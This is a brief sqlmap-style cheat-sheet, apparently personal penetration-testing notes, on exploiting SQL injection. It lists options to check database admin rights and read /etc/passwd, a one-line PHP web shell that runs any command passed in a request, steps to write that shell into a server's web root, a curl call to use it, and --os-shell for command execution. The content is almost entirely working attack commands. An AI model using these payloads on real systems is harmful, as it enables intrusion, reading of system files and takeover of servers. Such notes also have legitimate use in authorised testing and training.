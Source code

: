 ### FILE

check privileges:
```
--is-dba
```

reading local files
```
--file-read "/etc/passwd"
```

writing local file
first have the file in our computer
```
echo '<?php system($_REQUEST["cmd"]); ?>' > shell.php
```

and then after that use
```
--file-write "shell.php" --file-dest "/var/www/html/shell.php"
```
then we can attempt to access the remote PHP shell
```shell-session
curl http://www.example.com/shell.php?cmd=ls+-la
```

## Command Execution 
```
--os-shell
--os-shell --technique=E
```
